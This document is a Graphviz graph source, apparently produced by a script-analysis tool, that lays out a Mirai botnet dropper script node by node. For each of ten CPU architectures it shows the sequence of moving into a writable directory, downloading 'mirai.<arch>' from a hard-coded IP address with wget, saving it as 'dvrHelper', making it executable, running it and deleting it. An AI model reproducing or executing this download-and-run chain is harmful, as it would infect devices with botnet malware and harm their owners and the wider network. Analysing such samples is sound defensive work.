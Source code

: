 digraph {
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 10 [label="||,"];
10 [label="wget http://144.76.197.58/mirai.arm -O dvrHelper "];
10 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 28 [label="||,"];
28 [label="wget http://144.76.197.58/mirai.m68k -O dvrHelper "];
28 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 46 [label="||,"];
46 [label="wget http://144.76.197.58/mirai.mips -O dvrHelper "];
46 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 64 [label="||,"];
64 [label="wget http://144.76.197.58/mirai.mpsl -O dvrHelper "];
64 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 82 [label="||,"];
82 [label="wget http://144.76.197.58/mirai.x86 -O dvrHelper "];
82 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 100 [label="||,"];
100 [label="wget http://144.76.197.58/mirai.spc -O dvrHelper "];
100 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 118 [label="||,"];
118 [label="wget http://144.76.197.58/mirai.arm7 -O dvrHelper "];
118 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 136 [label="||,"];
136 [label="wget http://144.76.197.58/mirai.arm5n -O dvrHelper "];
136 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 154 [label="||,"];
154 [label="wget http://144.76.197.58/mirai.ppc -O dvrHelper "];
154 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 172 [label="||,"];
172 [label="wget http://144.76.197.58/mirai.sh4 -O dvrHelper "];
172 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
}
